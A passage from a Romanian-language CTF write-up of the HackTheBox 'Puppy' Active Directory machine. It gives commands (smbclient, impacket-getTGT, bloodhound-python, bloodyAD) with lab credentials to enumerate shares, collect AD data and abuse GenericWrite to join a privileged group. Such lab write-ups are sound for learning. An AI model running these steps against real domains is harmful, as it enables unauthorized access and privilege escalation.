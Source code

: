 1. Pentru a raspunde la prima intrebare, voi folosi urmatoarea comanda astfel incat sa putem sa vedem toate shareurile smb de pe server. 

*smbclient -L [//10.10.11.70](https://10.10.11.70/) -U "levi.james@PUPPY.HTB"*

![Fig. 7](/writeups/puppy/image%206.png)

Fig. 7

2. Aflarea grupului din care face parte levi.james. 

Putem folosi tool ul bloodhound pentru a vedea grupul. Am incercat prin alte metode si am mai obtinut alte informatii care se pot vedea in poza de mai jos 

![Fig. 8](/writeups/puppy/image%207.png)

Fig. 8

Pentru a putea vizualiza graficul din bloodhound, vom descarca un ticket TGT. Pana atunci ne aliniam cu data de pe aplicatie si mai apoi solicitam fisierele .json pentru experitza bloodhound pe mai tarziu. 

*impacket-getTGT puppy.htb/'levi.james':'KingofAkron2025!' -dc-ip 10.10.11.70*

![Fig. 9](/writeups/puppy/image%208.png)

Fig. 9

Dupa ce am descarcat fisierele ZIP, le-am incarcat in Bloodhound iar dupa ce fisierele au fost analizate, am primit urmatorul grafic pentru levi.james 

*bloodhound-python -d PUPPY.HTB -u levi.james -k -ns 10.10.11.70 -dc dc.puppy.htb -c All --dns-tcp --zip*   

![Fig. 10](/writeups/puppy/image%209.png)

Fig. 10

3. O terminologie interesanta pe care o are grupul HR peste Developers este GenericWrite. 

![Fig. 11](/writeups/puppy/image%2010.png)

Fig. 11

4. Pentru a adauga user-ul levi.james in Developers, vom folosi bloodyAD. 
O documentatie relevanta se poate regasi aici:
[https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad](https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad)

*bloodyAD --host dc.puppy.htb --dc-ip 10.10.11.70 \
-d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' \
add groupMember 'Developers' 'levi.james'*

![Fig. 12](/writeups/puppy/image%2011.png)

Fig. 12

5. Dupa conectarea pe smb am accesat share ul Dev si am descarcat tot ce aveam pe el. 
Un fisier care ne raspunde la intrebare, se afla in ce am descarcat. 

